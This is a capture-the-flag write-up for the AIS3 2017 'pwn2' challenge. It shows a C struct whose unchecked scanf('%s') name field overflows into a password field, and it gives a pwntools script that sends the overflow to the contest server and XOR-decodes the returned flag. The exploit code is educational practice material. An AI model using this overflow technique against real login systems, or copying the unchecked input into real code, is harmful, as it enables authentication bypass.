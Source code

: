 # AIS3 Pre-exam 2017: pwn2

![pwn2](pwn2.png)

## Solution
Windows Binary... QQ

A simple buffer overflow:
```
struct user {
	char name[20];
	int pass;
} ais3_user;

...snip...

printf(" Username : ");
scanf("%s",ais3_user.name);
printf(" Password : ");
scanf("%d", &password);
```

The ais3_user.name doesn't check the length of input, so the 21~24 chars will overflow to ais3_user.pass.
We can control the value of ais3_user.pass, so we can login the system.
The output flag is encrypted by xor-ing the password, so we have to xor the password to decrypt it.

```python
#!/usr/bin/env python

from pwn import *

host = "quiz.ais3.org"
port = 56746

r = remote(host, port)

r.recvuntil(': ')
payload = 'a' * 20 + 'b' * 4
r.sendline(payload)

r.recvuntil(': ')
payload = '1650614882' // = 0x62626262
r.sendline(payload)

r.recvuntil(':')
r.recvuntil(':')
r.sendline('1')

r.recvuntil(': ')
flag = r.recvline()
print repr("".join([chr(ord('b') ^ ord(flag[i])) for i in range(len(flag))]))

r.interactive()
```

Flag:
>ais3{Just_a_simpl3_overflow}

